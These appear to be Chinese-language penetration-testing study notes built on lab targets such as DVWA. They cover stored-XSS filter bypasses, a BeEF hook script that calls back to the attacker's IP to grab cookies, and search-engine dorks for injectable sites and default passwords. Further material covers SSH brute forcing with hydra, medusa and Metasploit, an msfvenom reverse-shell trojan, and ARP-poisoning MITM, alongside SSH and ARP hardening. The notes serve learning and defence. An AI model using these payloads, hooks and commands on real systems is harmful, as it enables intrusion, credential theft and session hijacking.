- 输入用户名 1111，密码为
medium security
if(isset($_POST['btnSign']))
{
$message = trim($_POST['mtxMessage']);
$name = trim($_POST['txtName']);
// Sanitize message input
$message = trim(strip_tags(addslashes($message)));
$message = mysql_real_escape_string($message);
$message = htmlspecialchars($message);
// Sanitize name input
$name = str_replace('<script>', '', $name);
$name = mysql_real_escape_string($name);
$query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
$result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
}strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签，但允许使用
<b>标签对 message 参数使用了 htmlspecialchars 函数进行编码，无法再通过 message 参数注入 XSS 代码，但是对于 name 参数，只是简单过滤了
<script>字符串，仍然存在存储型的 XSS抓包改 name 参数
1. 双写绕过 <sc<script>ript>alert('xss')</script>
2. 大小写混淆绕过 <Script>alert('xss')</script>
high security
if(isset($_POST['btnSign']))
{
$message = trim($_POST['mtxMessage']);
$name = trim($_POST['txtName']);
// Sanitize message input
$message = stripslashes($message);
$message = mysql_real_escape_string($message);
$message = htmlspecialchars($message);
// Sanitize name input
$name = stripslashes($name);
$name = mysql_real_escape_string($name);
$name = htmlspecialchars($name);
$query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
$result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
}- 无法?
- 要注意的是，如果 htmlspecialchars 函数使用不当，攻击者就可以通过编码的方式绕过函数进行 XSS 注入，尤其是 DOM 型的 XSS
DOM 型 XSS
基于文档对象模型（Document Objeet Model，DOM）
例如服务器端经常使用 document.boby.innerHtml 等函数动态生成 html 页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生 DOM 型的 XSS
DOM 型 XSS 可能是存储型，也有可能是反射型
自动化 XSS
BeEF 简介
Browser Exploitation Framework (BeEF)
BeEF 是目前最强大的浏览器开源渗透测试框架，通过 XSS 漏洞配合 JS 脚本和 Metasploit 进行渗透
BeEF 是基于 Ruby 语言编写的，并且支持图形化界面，操作简单
http://beefproject.com/
信息收集：
- 网络发现
- 主机信息
- cookie 获取
- 会话劫持
- 键盘记录
- 插件信息
持久化控制：
- 确认弹框
- 小窗口
- 中间人
社会工程：
- 点击劫持
- 弹窗告警
- 虚假页面
- 钓鱼页面
渗透攻击：
- 内网渗透
- Metasploit
- CSRF 攻击
- DDOS 攻击
BeEF 基础
启动 Apache 和 BeEF
自带 BeEF 的 kali 版本：kali 2019.2
service apache2 start
# 点击左侧🐂的图标
ss -tnlp
# 要修改密码路径才能使用
# 修改BeEF的默认密码为1234
root@kali:~# vi /etc/beef-xss/config.yaml登录 BeEF：username：beef；password：beef(填写修改过的)

渗透机将脚本放在 DVWA 靶机中
<script src="http://192.168.50.132:3000/hook.js"></script>
# IP地址即BeEF所在机器
# 需修改字符数的限制
BeEF 页面查看肉鸡是否上线

信息收集
Current Browser -> Details

Commands -> Browser -> Hooked Domain -> Get Cookie -> Execute
命令颜色(Color)：
绿色 对目标主机生效并且不可见(不会被发现)
橙色 对目标主机生效但可能可见(可能被发现)
灰色 对目标主机未必生效(可验证下)
红色 对目标主机不生效
持久化控制
社会工程
参考资料
- https://www.freebuf.com/articles/web/123779.html
Web 信息收集
信息收集概述
- Web 信息搜集(探测)即 Web 踩点，主要是掌握目标 Web 服务的方方面面，是实现 Web 渗透入侵前的准备工作
- Web 踩点内容包括操作系统(Windows/Linux)、服务器类型、数据库类型、Web 容器(Web 服务器：Tomcat/Nginx/Apache)、Web 语言(php/java)、域名信息(主站、子站、没有上线的域名)、网站目录...
- Web 信息搜集涉及搜索引擎(谷歌、撒旦、钟馗之眼)、网站扫描、域名遍历、指纹识别等工作
搜索引擎篇
Google Hacking
通过谷歌搜索想要的信息
关键字
site
功能：搜索指定的域名的网页内容，可以用来搜索子域名、跟此域名相关的内容
site:zhihu.com
# 搜索跟zhihu.com相关的网页
"web安全" site:zhihu.com
site:zhihu.com "web安全"
# 可多个关键词
# 关键词通过双引号当成一个整体来看
# 搜索zhihu.com跟“web安全”相关的网页
"教程" site:pan.baidu.com
# 在百度网盘中搜索“教程”filetype
功能：搜索指定文件类型
"web安全" filetype:pdf
# 搜索跟“web安全”相关的pdf文件
nmap filetype:ppt
# 搜索跟nmap相关的ppt文件
site:csdn.net filetype:pdf
filetype:pdf site:csdn.net
# 搜索csdn网站中的pdf文件
site:csdn.net filetype:pdf "CC攻击"inurl
功能：搜索 url 网址存在特定关键字的网页，可以用来搜寻有注入点的网站
inurl:.php?id=
# 搜索网址中有".php?id"的网页
inurl:view.php=?
# 搜索网址中有"view.php="的网页
inurl:.jsp?id=
# 搜索网址中有".jsp?id"的网页
inurl:.asp?id=
# 搜索网址中有".asp?id"的网页
inurl: /admin/login.php
# 搜索网址中有"/admin/login.php"的网页
inurl:login
# 搜索网址中有"login"等登录网页intitle
功能：搜索标题(也包括一些正文)存在特定关键字的网页
intitle:后台登录
# 搜索网页标题是”后台登录“的相关网页
intitle:后台管理 filetype:php
# 搜索网页标题是”后台管理“的php页面
intitle:index of "keyword"
# 搜索此关键字相关的索引目录信息
intitle:index of "parent directory"
# 搜索根目录相关的索引目录信息
intitle:index of "password"
# 搜索密码相关的索引目录信息
intitle:index of "login"
# 搜索索引目录中的登录页面信息
intitle:index of "admin"
# 搜索索引目录中后台管理页面信息intext
功能：搜索正文存在特定关键字的网页
intext:Powered by Discuz
# 搜索Discuz论坛相关的页面
intext:powered by wordpress
# 搜索wordpress制作的博客网址
intext:powered by *CMS
# 搜索*CMS相关的页面
intext:Powered by xxx inurl:login
# 搜索此类网址的后台登录页面
实例
# 搜索美剧/电影等相关网站： |
符号
-keyword 强制结果不要出现此关键词，例如：电影 -黑客 |
参考
Get More Out of Google - 有效利用谷歌搜索
善于用搜索符
不要问谷歌问题
比如需要一份燕子飞行速度的专业报告，燕子的飞行速度是多少[错误问法]，而是
filetype:pdf air speed intitle:velocity of *swallow搜索作者 Dr. Ronald L. Green 和 Dr.Thomas P. Buttz. 关于光合作用的论文
author:green photosynthesis "tp buttz"
# 搜索Green发表的论文
# photosynthesis是普通的谷歌搜索，要找的主题关键字
# ""让结果更精确，输入作者全名或者是缩写
定词定义：
define:angary数学计算：直接在谷歌里输入数学算式，可包含+-*/和括号
单位换算：54 磅=？公斤
快捷键：
- Ctrl+L：选中浏览器地址栏
Shodan Hacking
https://www.shodan.io/
Shodan(撒旦搜索引擎)是由 Web 工程师 John Matherly(马瑟利)编写的，被称为“最可怕的搜索引擎”，可扫描一切的互联网设备，如常见的 web 服务器、防火墙、路由器、交换机、摄像头、打印机等一切联网设备
关键词
ip
114.114.114.114
# 直接在搜索框中输入上述语句service / protocol
http
# 所有提供http服务的主机
http country:"DE"
http country:"DE" product:"Apache httpd"
http product:"Apache httpd"
ssh
ssh default password
ssh default password country:"JP"keyword
# 基于关键词搜索的思路是根据banner信息(设备指纹)来搜索
"default password" country:"TH"
FTP anon successfulcountry
country:cn
country:us
country:jpproduct 产品
product:"Microsoft IIS httpd"
product:"nginx"
product:"Apache httpd"
product:MySQLversion
product:MySQL version:"5.1.73"
product:"Microsoft IIS httpd" version:"7.5"hostname
hostname:.org
hostname:.edu
hostname:www.baidu.comos
os:"Windows Server 2008 R2"
os:"Windows 7 or 8"
os:"Linux 2.6.x"net
net:110.180.13.0/24
# 某个网段的机器
200 ok net:110.180.13.0/24
# 加上返回码
200 ok country:JP net:110.180.13.0/24port
port:3389
# windows一般会开3389端口 mstsc打开远程桌面连接，输入计算机ip地址，之后要知道用户名和密码就可以连接
port:445
# samba
port:22
port:80
port:443
# http
综合案例
# 搜索日本区开启80端口的设备： |
Zoomeye Hacking
https://www.zoomeye.org/
Zoomeye (钟馗之眼) 面向网络空间的搜索引擎，国产的 Shodan，知道创宇出品
公网设备指纹检索和 Web 指纹检索
设备指纹包括应用名、版本、开放端口、操作系统、服务没、地理位置等
网站指纹包括应用名、版本、前端框架、后端框架、服务端语言、服务器操作系统、网站容器、内存管理系统和数据库等
- ip(IP 地址) / os / app(组件名) / service(服务名) / port / product / country / ver(组件版本) / cidr(CIDR IP 段:8.8.8.8/24) / hostname(主机名) / site(域名) / title(首页标题) / headers(HTTP 头) / keywords(首页关键词) / desc(首页描述信息)
- 用户手册
目标扫描篇
和漏扫不同，信息扫描只是获得一些指纹信息
Nmap
Nmap 是安全渗透领域最强大的开源端口扫描器，能跨平台支持运行
https://nmap.org/
https://sectools.org/
命令行
！扫描行为本来也是攻击行为
扫描示例
# 主机发现 C段扫描 |
zenmap
图形化、nmap 的前端
intense scan

nmap -T4 -A -v 192.168.50.129
-T 设置速度等级，1到5级，数字越大，速度越快
-A 综合扫描
-v 输出扫描过程intense scan plus UDP
nmap -sS -sU -T4 -A -v 192.168.106.134
-sS TCP全连接扫描
-sU UDP扫描intense scan, all TCP ports
nmap -p 1-65535 -T4 -A -v 192.168.106.134
-p 指定端口范围，默认扫描1000歌端口intense scan no ping
nmap =T4 -A -v -Pn 192.168.106.134/24
-Pn 不做ping扫描，例如针对防火墙等安全产品ping scan
nmap -sn 192.168.106.0/24
nmap -sn -T4 -v 192.168.106.0/24
-sn 只做ping扫描，不做端口扫描quick scan
nmap -T4 -F 192.168.106.134
-F fast模式，只扫描常见服务端口，比默认端口(1000个)还少quick scan plus
nmap -sV -T4 -O -F --version-light 192.168.106.134
-sV 扫描系统和服务版本
-O 扫描操作系统版本quick traceroute
nmap -sn --traceroute www.baidu.com
regular scan
nmap www.baidu.com
slow comprehensive scan
nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)" 192.168.50.129
OpenVAS
OpenVAS(Open Vulnerability Assessment System)，即开放式漏洞评估系统，是一个用于评估目标漏洞的接触框架，开源且功能十分强大
它与著名的 Nessus“本是同根生”，在 Nessus 商业化之后仍然坚持开源，号称“当前最好用的开源漏洞扫描工具”
最新版的 Kali Linux 不再自带 OpenVAS 了，需要自己部署 OpenVAS 漏洞检测系统
其核心部件是一个服务器，包括一套网络漏洞测试程序，可以检测远程系统和应用程序中的安全问题。但是他的最常用用途是检测目标网络或主机的安全性。他的评估能力来源于数万个漏洞测试程序，这些程序都是以插件的形式存在。
openvas 是基于 C/S(客户端/服务器)，B/S(浏览器/服务器)架构进行工作，用户通过浏览器或者专用客户端程序来下达扫描任务，服务器端负责授权，执行扫描操作并提供扫描结果
https://openvas.org/
https://www.greenbone.net/
| 名称 | 功能 |
|---|---|
| gvmd | GVM10 自带的守护进程 |
| openvasmd | GVM9 及之前的守护进程的叫法 |
| openvassd | GVM 的扫描器进程，作用就是进行漏洞扫描，并将结果反馈给管理模块 |
部署
部署太难了
# 升级kali |

openvas-setup command not found 解决方法
OpenVAS is changing the name, the new command gvm will replace all openvas commands. |
https://dannyda.com/2020/08/07/how-to-fix-openvas-command-not-found-in-kali-linux-2020-2a/#comment-201
Tested for you. |


# 都需要sudo权限 |
https://dannyda.com/2020/08/26/how-to-reset-admin-password-for-openvas-and-gvm-11/https://dannyda.com/2020/08/26/how-to-reset-admin-password-for-openvas-and-gvm-11/
https://www.cnblogs.com/godyrg/p/13523166.html
虽然环境搭好了，但是我扫描一直都得不到结果

可能还是什么服务没有正常运行 - 【版本不兼容问题吧-没深究了】
# /var/log/gvm/gvmd.log |
我放弃了，决定用 docker 的方式搭建 https://www.freebuf.com/articles/container/236909.html - 【未测试】
https://www.cnblogs.com/mysticbinary/p/12779149.html - 【成功】
docker openvas logs |
登录
sudo gvm-start |

新建扫描 task
扫描需要的时间很长：1.我们不能在业务繁忙的时候进行扫描，也不能对未授权的站点进行扫描
- Scans -> Tasks
- 选择紫色的小魔法棒 -> Task wizard -> 对目标主机进行扫描
- 导出扫描报告
高级扫描 task
选择紫色的小魔法棒 -> Advanced Task wizard -> 对目标主机进行扫描


导出扫描报告
出现扫描进度条，才算可以，只不过 openvas 的耗时巨久

Web 漏洞扫描
AWVS
Acunetix Web Vulnerability Scanner(AWVS)是一款知名的 Web 网络漏扫工具。它通过网络爬虫测试网站安全，检测流行安全漏洞。它包含有收费和免费两种版本
https://www.acunetix.com/
https://www.acunetix.com/vulnerability-scanner/download/
https://www.acunetix.com/download/fullver13/
功能以及特点
- 自动的客户端脚本分析器，允许对 Ajax 和 Web2.0 应用程序进行安全性测试
- 业内最先进且深入的 SQL 注入和跨站脚本测试
- 高级渗透测试工具，例如 HTTP Editor 和 HTTP Fuzzer
- 可视化宏记录器轻松测试 web 表格和受密码保护的区域
- 支持含有 CAPTHCA 的页面，单个开始指令和 Two Factor(双因素)验证机制
- 丰富的报告功能，包括 VISA PCI 依从性报告
- 高速的多线程扫描器轻松检索成千上万个页面
- 智能爬行程序检测 web 服务器类型和应用程序语言
- Acunetix 检索并分析网站，包括 flash 内容、SOAP 和 AJAX
- 端口扫描 web 服务器并对在服务器上运行的网络服务执行安全检查
- 可导出网站漏洞文件
项目环境
- 目标靶机：OWASP_Broken_Web_Apps_VM_1.2
- 测试渗透机：win7(即软件安装在 win7 上)
- 大多数软件都是基于 java 环境，所以要在 win7 攻击机上安装 Windows 版的 java 包
AWVS 安装
漏洞扫描工具 acunetix 破解安装步骤 - 网页版

AWVS 中文教程 - Consultant Edition

AWVS 使用
网站扫描 - Web Scanner ⭐
# 官方提供的扫描页面
http://testhtml5.vulnweb.com/
http://testphp.vulnweb.com/
http://testasp.vulnweb.com/
http://testaspnet.vulnweb.com/
# profile是扫描配置，关注哪个漏洞，选择测试类型
# 提供信息
- Target Information
- Web Alerts 漏洞告警
- Site Structure 网站架构
- Activity 扫描日志
# 弹出的标单随意填写站点爬取 - Site Crawler
目标查找 - Target Finder
子域名扫描 - Subdomain Scanner
SQL 盲注 - Blind SQL Injector
HTTP 编辑器 - HTTP Editor
HTTP 嗅探 - HTTP Sniffer
HTTP 模糊测试 - HTTP Fuzzer
认证测试 - Authentication Tester
结果比较 - Compare Results
用得较多、Consultant Edition
网站服务扫描 - Web Services Scanner
任务计划
扫描报告 - Report
加上甲方 logo 等信息
AWVS 配置
AppScan
IBM Security AppScan 是一个适合安全专家的 Web 应用程序和 Web 服务渗透测试解决方案
国外商业漏扫产品中，少有的能支持中文的漏扫，运行于 windows 平台
界面清晰、配置简单丰富的中文和产品文档，详细的漏洞说明和修复建议
支持丰富的扫描报告，包括安全性、行业标准、合规一次性报告
功能及特点
- 对现代 Web 应用程序和服务执行自动化的动态应用程序安全测试(DAST)和交互式应用程序安全测试(IAST)
- 支持 web 2.0、JavaScript 和 AJAX 框架的全面的 JavaScript 执行引擎
- 涵盖 XML 和 JSON 基础架构的 SOAP 和 REST Web 服务测试支持 WS-Security 标准、XML 加密和 XML 签名
- 详细的漏洞公告和修复建议
- 40 多种合规性报告，包括支付卡行业数据安全标准(PCI DSS)、支付应用程序数据安全标准(PA-DSS)、ISO 27001 和 ISO 27002，以及 Basel Ⅱ
- IBM Security AppScan eXtensions Framework 提供的自定义功能和可扩展性
测试网站：demo.testfire.net 用户名：jsmith 密码：Demo1234
该软件体量比较大，需要足够的内存
安装
AppScan 下载安装使用教程 - 我扫描得出的都是安全，所以我换一个高版本
使用
文件 -> 新建 -> 常规扫描 -> 填入对应的 URL
登录方法 -> 自动(填入用户名和密码等信息) -> 自动检测会话中配置
扫描 pwaspbwa 的结果

需要在一次会话中完成扫描，否则下一次打开就会报错会话检测问题
BurpSuite
安全渗透界使用最广泛的漏扫工具之一，能实现从漏洞发现到利用的完整过程
功能强大、配置较为复杂、可定制型强、支持丰富的第三方拓展插件、基于 Java 编写、跨平台支持、分为 Free 和 Professional 版本
https://portswigger.net/burp
核心功能：目标(基础)、代理、爬虫、扫描、入侵
辅助功能：重放、序列器、解码器、对比
- Target：目标模块用于设置扫描域(target scope)、生成站点地图(sitemap)、生成安全分析
- Proxy：代理模块用于拦截浏览器的 http 会话内容
- Spider：爬虫模块用于自动爬取网站的每个页面内容，并生成完整的网站地图
- Scanner：扫描模块用于自动化检测漏洞，分为主动和被动扫描
- Intruder：入侵(渗透)模块根据上面检测到的可能存在漏洞的链接，调用攻击载荷，对目标链接进行攻击；入侵模块的原理是根据访问链接中存在的参数，调用本地词典、攻击载荷，对参数进行渗透测试
- Repeater：重放模块用于实现请求重放，通过修改参数进行手工请求回应的调试
- Sequencer：序列器模块用于检测参数的随机性，例如密码或者令牌是否可预测，以此判断关键数据是否可被伪造
- Decoder：解码器模块用于实现对 URL、HTML、Base64、ASCII、二/八/十六进制、哈希等编码转换
- Comparer：对比模块用于对两次不同的请求和回应进行可视化对比，以此区分不同参数对结果造成的影响
- Extender：拓展模块是 burpsuite 非常强悍的一个功能，也是它跟其他 Web 安全评估系统最大的差别；通过拓展模块，可以加载自己开发的或者第三方模块，打造自己的 burpsuite 功能；通过 burpsuite 提供的 API 接口，目前可以支持 Java、Python、Ruby 三种语言的模块编写
- Options：分为 Project/User Options，主要对软件进行全局设置
- Alerts：显示软件的使用日志信息
安装
- kali linux：集成 burpsuite free 版本，不支持 scanner 功能
- burpsuite pro 1.7.30 版本，支持全部功能
- 启动方法：java -jar -Xmx1024M /burpsuite_path/BurpHelper.jar
- 浏览器的代理软件
- SwitchyOmega：添加 proxy，填写 proxy servers
代理功能 - Proxy
开启监听端口
浏览器设置代理
代理功能详解
拦截账号信息
要扫描 OWASP 靶机，必须先要设置代理，保证数据能够经过 Burpsuite
http history
目标功能 - Target
站点地图 Site map
设置目标域 Target Scope
- 选择想要的站点
- 全局/局部
filter(选择想要显示部分)
爬虫功能 - Spider
# 准备工作 |
- 有些页面是灰色的，即该页面我们没有访问。我们主动访问一些页面，但是其他未经访问的页面也被爬取下来，说明 Burpsuite 在被动爬取
扫描功能 - Scanner
BurpSuite 社区版没有扫描功能
# 准备工作 |
issue activity -> 导出报告

SSH 密码暴力破解以及防御实战
在线破解：服务开启，通过不断尝试、探测破解
离线破解：获得本地密码文件如 shadow 文件，通过 MD5 的网站或者工具去破解
hydra [海德拉]
世界顶级密码暴力密码破解工具，支持几乎所有协议的在线密码破解，功能强大，其密码能否被破解关键取决于破解字典是否足够强大，在网络安全渗透过程中是一款必备的测试工具
- 命令行版本
- GUI 版本 xhydra
指定用户破解 & 用户列表破解
Examples: |

Medusa [美杜莎]
Medusa 是一个速度快、支持大规模并行、模块化、爆破登录、可以同时对多个主机、用户或密码执行强力测试
同 hydra 一样属于在线密码破解工具，但 medusa 的稳定性相较于 hydra 要好很多，但其支持模块要比 hydra 少一些
kali 没有 medusa apt-get install
语法参数
medusa -h |
破解 SSH 密码
medusa -M ssh -h 192.168.50.129 -u root -P pw.txt |

patator
强大的命令行暴力破解器
A Powerful Command-line Brute-forcer
可用模块 & 破解 SSH 密码
# 查看ssh_login模块 |

BruteSpray
BruteSpray 是一款基于 nmap 扫描输出的 gnmap/XML 文件，自动调用 Medusa 对服务进行爆破(Medusa 是一款端口爆破工具，速度比 Hydra 快)
Kali 安装
apt-get update |
爆破
nmap -sS -p22 192.168.50.0/24 -oX 22.xml |

MSF
渗透测试框架
www.metasploit.com
Metasploit Framework(MSF)是一个编写、测试和使用 exploit 代码的完善环境，这个环境为渗透测试、Shellcode 编写和漏洞研究提供了一个可靠平台，这个框架主要是面向对象的 Perl 编程语言编写，并带有由 C 语言、汇编程序和 Python 编写的可选组件
探测发现(端口、服务、漏洞)
漏洞验证、攻击、载核
编码混淆
Free & Pro
- 命令行 - GUI
- 手动 - 自动
- AV(反病毒软件) - AntiAV
Msfconsole
漏洞攻击
# 显示漏洞模块 |
SSH 模块
msfconsole |
SSH 用户枚举
msf > use auxiliary/scanner/ssh/ssh_enumusers |

SSH 版本探测
msf > use auxiliary/scanner/ssh/ssh_version |

SSH 暴力破解
msf > use auxiliary/scanner/ssh/ssh_login |

Meterpreter
- 会话管理
Msfvenom
payload 生成
msfvenom -p <payload> <payload options> -f <format> -o <path>
生成木马后门
生成木马后门
msfvenom -p payload类型 LHOST=10.211.55.2 LPORT=4444 -f exe > shell.exe
-p 指定payload类型
LHOST 控制端的IP，能够连到
LPORT 控制端的端口
-f 指定文件格式生成木马后门连接
use exploit/multi/handler
set PAYLOAD <Payload name>
# 本地需要监听木马中设定的IP，才能测试木马的工作
set LHOST <Local IP>
# 同理端口
set LPORT <Local Port>
run / exploit
混淆
- 混淆 payloads - 绕过杀毒软件等
暴力破解防御
useradd shell ⭐
对于不需要登录的用户，需要/sbin/nologin，无需给他可登录的 shell
useraddd xxx -s /sbin/nologin
# 一般都是 /bin/bash密码的复杂性 ⭐
字母大小写 + 数字 + 特殊字符 + 20 位以上 + 定期更换
修改默认端口 ⭐
vim /etc/ssh/sshd_config
# Port 22222
# ssh_config 客户端文件 sshd_config服务器文件
# 0-65535很难全部扫描
# 保存指纹信息
vim .ssh/known_hosts
# 实现当第一次连接服务器时，自动接受新的公钥
vim /etc/ssh/ssh_config
# StrictHostKeyChecking no限制登录的用户或组 ⭐
vim /etc/ssh/sshd_config
#PermitRootLogin yes
# Allowusers xxx
# ssh 192.168.50.129 -l xxx
man sshd_config
# AllowUsers AllowGroups DenyUsers DenyGroups使用 sudo ⭐
平时都使用 root 用户的做法是不对的，权限过大
visudo
设置允许的 IP 访问 - 过于陈旧的方法【可选】
/etc/hosts.allow
# sshd:192.168.50.129:allow
# sshd:all:allow
PAM基于IP限制 # 少用
iptables/firewalld
只能允许从堡垒机/跳板机 # 所有业务限定从跳板机访问使用软件 DenyHosts 自动统计，只要某个 ip 登录错误三次，就将其加入到/etc/hosts.deny，但不会自动解锁(管理员忘了就完了)
基于 PAM 实现登录限制⭐【稳】
模块：pam_tally2.so
功能：登录统计
示例：实现防止对sshd暴力破解
# pam服务适用于身份验证的第三方服务
grep tally2 /etc/pam.d/sshd
# vim /etc/pam.d/sshd
# 在最前面加一行 无论什么身份 只要失败两次 就锁定30s
auth required pam_tally2.so deny=2 even_deny_root root_unlock_time=30 unlock_time=30
# 日志查看方式: tail -f var/log/secure
vim /etc/pam.d/su
# 第一行如下：只要是root就可以随意进入，下面的限制都不用管了
auth sufficient pam_rootok.so
# 假设这一行被放入了/etc/pam.d/sshd中，则远程ssh登录无需正确密码即可登录暴力软件可能不会隔一段时间重新去尝试，只要发现无法爆破，可能会退出；爆破频率太低
禁用密码、改用公钥方式认证
vim /etc/ssh/sshd_config
PasswordAuthentication no
# ssh localhost -v
# gssapi-keyex > publickey > password保护 xshell 导出会话文件【小心】
在 xshell 文件中保存了很多远程登录机器的信息，通过导出 > 导出密码
GRUB(多操作系统启动程序)加密【针对本地破解】
中间人攻击以及防御
原理
利用ARP 协议(将 IP 地址解析为 MAC 地址)进行中间人攻击

arp -a |

sudo apt-get install ettercap-graphical |
Sniff > Unified sniffing... > eth0
Hosts > Host List（Scan for host） > Add to Target1(其他机器)/2(网关)
Targets > Current targets
Mitm > ARP poisoning... > Sniff remote connections.
被攻击的机器，之后用 arp -a 查看，发现原来网关的 IP 对应的是中间人攻击机器的 MAC 地址，说明攻击成功
当被攻击的机器登录一个采用明文协议传输的网站，中间人即可获得登录的用户名和密码
客户端防御
对上网的行为和方式有一定基本保护，如配置防火墙、防 ARP 攻击软件等措施。
对于 Windows 机器，不相信任何人告诉的 ARP 地址，将正确的网关地址固定下来，变为静态类型
arp -d # 删除
# 绑定IP/MAC
# 法一 - 临时
arp -s IP地址 MAC地址
# 法二 - 永久
netsh i i show in # 找准网卡 - 本地连接
netsh -c "i i" ad ne 18 192.168.1.200 00-aa-00-62-c6-09 store=active
# 18 Idx值 store=persistent
# 删除
netsh -c "i i" delete neighbors 18对于 Linux 机器，
ip neigh
arp -s IP地址 MAC地址
# PERMANET STALE
服务器防御 ⭐ HTTPS 实现网站数据加密
- HTTPS 加密机制
- wordpress 环境准备
- SSL 证书申请流程
- SSL 证书使用及测试
- Kali Linux 中间人攻击测试
HTTPS 加密机制
协议：网络协议的简称，网络协议是通信计算机双方必须共同遵守的一组约定(建立连接、互相识别)，只有遵守这个约定，计算机之间才能相互通信交流
HTTP
- 获取服务器(其他电脑的一些文件)
- 简单快速：客户向服务器请求服务，只需传送请求方法和路径
- 灵活、无连接
- 明文协议
- HTTP 协议潜在漏洞
HTTPS
即 HTTP over TLS/SSL，是一种加密信道进行 HTTP 内容传输的协议
HTTP/TCP/IP(HTTP)
HTTP/SSL 或者 TSL/TCP/IP(HTTPS)
原理
CC 攻击和 DDos 攻击的区别
DDOS：针对网络，传统防火墙
CC：针对应用，waf